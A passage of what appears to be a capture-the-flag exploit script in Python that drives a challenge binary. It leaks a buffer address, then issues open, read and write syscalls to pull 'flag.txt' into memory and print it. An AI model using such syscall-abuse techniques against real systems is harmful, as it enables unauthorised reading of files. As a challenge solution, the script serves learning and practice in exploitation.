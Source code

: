```python
  binary.sendline(str(value))
  message = binary.recv()
  print(message)


address = int(message.split(b"\n")[0].split(b"0x")[1], 16)

print("Address of buffer is -> " + hex(address))

read = [0, address, 8, 0, 0, 0]

binary.sendline(str(0))
for value in read:
  print(binary.recv())
  binary.sendline(str(value))
  
binary.sendline("flag.txt")
print(binary.recv())

open_function = [address, 0, 0, 0, 0, 0]

binary.sendline(str(2))

for value in open_function:
  binary.sendline(str(value))
  message = binary.recv()
  print(message)
message = binary.recv()
file_descriptor = int(message.split(b"\n")[0].split(b"0x")[1], 16)
print("File descriptor of flag.txt -> " + hex(file_descriptor))

read = [file_descriptor, address, 100, 0, 0, 0]

binary.sendline(str(0))

for value in read:
  print(binary.recv())
  binary.sendline(str(value))
  

write = [1, address, 100, 0, 0, 0]

binary.sendline(str(1))

for value in write:
  print(binary.recv())
  binary.sendline(str(value))

binary.interactive()
```
